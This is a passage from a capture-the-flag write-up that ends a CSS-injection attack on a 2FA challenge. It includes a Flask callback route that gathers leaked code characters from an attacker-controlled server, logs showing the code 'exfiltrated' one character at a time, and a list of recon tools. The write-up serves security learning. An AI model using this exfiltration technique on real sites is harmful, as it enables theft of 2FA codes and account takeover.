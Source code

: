 And lastly, the route for the callback - we just keep collecting the characters, and when we have all 7 for this session, we join them up and log the code:

```python
@blueprint.route('/h1-2006-callback/<session>/<int:pos>/<char>')
def h1_2006_callback(session: str, pos: int, char: str):
    global code_chars

    chars: List = code_chars[session]
    chars[pos] = char

    if None not in chars:
        code = ''.join(chars)
        logger.info(f"[session {session}] Exfiltrated code: {code}")

    return '', 204  # 204 No Content, i.e. just empty response
```

A sample output of running such code (and passing our stylesheet to the 2FA challenge) is like this:
```
[Thread-10 |pid:17455] INFO: 172.17.0.2 - - [09/Jun/2020 00:33:34] "GET /poc/ctf/uni_2fa_style.css HTTP/1.0" 200 -
[Thread-11 |pid:17455]INFO: 172.17.0.2 - - [09/Jun/2020 00:33:34] "GET /poc/ctf/h1-2006-callback/0cc2d/0/b HTTP/1.0" 204 -
[Thread-12 |pid:17455] INFO: 172.17.0.2 - - [09/Jun/2020 00:33:34] "GET /poc/ctf/h1-2006-callback/0cc2d/1/N HTTP/1.0" 204 -
[Thread-13 |pid:17455] INFO: 172.17.0.2 - - [09/Jun/2020 00:33:34] "GET /poc/ctf/h1-2006-callback/0cc2d/2/f HTTP/1.0" 204 -
[Thread-14 |pid:17455] INFO: 172.17.0.2 - - [09/Jun/2020 00:33:34] "GET /poc/ctf/h1-2006-callback/0cc2d/3/Q HTTP/1.0" 204 -
[Thread-15 |pid:17455] INFO: 172.17.0.2 - - [09/Jun/2020 00:33:34] "GET /poc/ctf/h1-2006-callback/0cc2d/4/h HTTP/1.0" 204 -
[Thread-16 |pid:17455] INFO: 172.17.0.2 - - [09/Jun/2020 00:33:34] "GET /poc/ctf/h1-2006-callback/0cc2d/5/D HTTP/1.0" 204 -
[Thread-17 |pid:17455] INFO: [session 0cc2d] Exfiltrated code: bNfQhDT
[Thread-17 |pid:17455] INFO: 172.17.0.2 - - [09/Jun/2020 00:33:34] "GET /poc/ctf/h1-2006-callback/0cc2d/6/T HTTP/1.0" 204 -
```

Once we obtain the code, we simply submit it as a response for 2FA challenge using the corresponding input on the page, and we're finally presented with the flag!
{F863338}

If you've read this far, thank you very much for bearing with me!

--------------------------------------------
References

Tools
* [Amass](https://github.com/OWASP/Amass)
* [Massdns](https://github.com/blechschmidt/massdns) 
  * [commonspeak2](https://github.com/assetnote/commonspeak2-wordlists/blob/master/subdomains/subdomains.txt)
  * [dnsgen](https://github.com/ProjectAnte/dnsgen)
* [ffuf](https://github.com/ffuf/ffuf)
* [gitdumper.sh](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh)
* [dex2jar](https://github.com/pxb1988/dex2jar)
* [JD-GUI](http://java-decompiler.github.io/)
* [sic](https://github.com/d0nutptr/sic) 
* [CSS escapes](https://github.com/mathiasbynens/mothereff.in/tree/master/css-escapes) with [online tool] (https://mothereff.in/css-escapes)

